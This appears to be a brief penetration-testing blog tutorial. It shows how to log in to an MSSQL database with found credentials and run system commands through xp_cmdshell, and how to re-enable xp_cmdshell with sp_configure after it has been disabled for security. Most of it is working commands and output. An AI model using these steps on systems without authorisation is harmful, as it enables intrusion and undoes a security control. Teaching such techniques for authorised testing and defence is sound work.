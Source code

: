 ```yaml
---
layout: post
title:  "Use MSSQL To Execute System Commands"
date:   2020-03-12 01:41:34 +0530
categories: redteam ctf
---
```


## Introduction

When we conducting a penetration test, the end goal of the reconnaissance phase is finding a way to execute a system command. If your system have a 
MSSQL database and you have found credentials to it congratulations you have found a way to execute system command. This blog post talks about 
how to execute system commands using MSSQL.

## Login to MSSQL database
We can use a tool called sqsh to login to the database
```
sqsh -S <IP> -U <USER> -P <PASS>
```

## Execute system commands
xp_cmdshell function can be use to execute system commands,
```
1>xp_cmdshell 'whoami'
2>go
```

## xp_cmdshell is disabled?
If xp_cmdshell function is disabled as a security configuration still there is a way to enable it <b>IF</b> you are an admin user or sa user in MSSQL
```
1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go
```

### Happy Hacking !!!
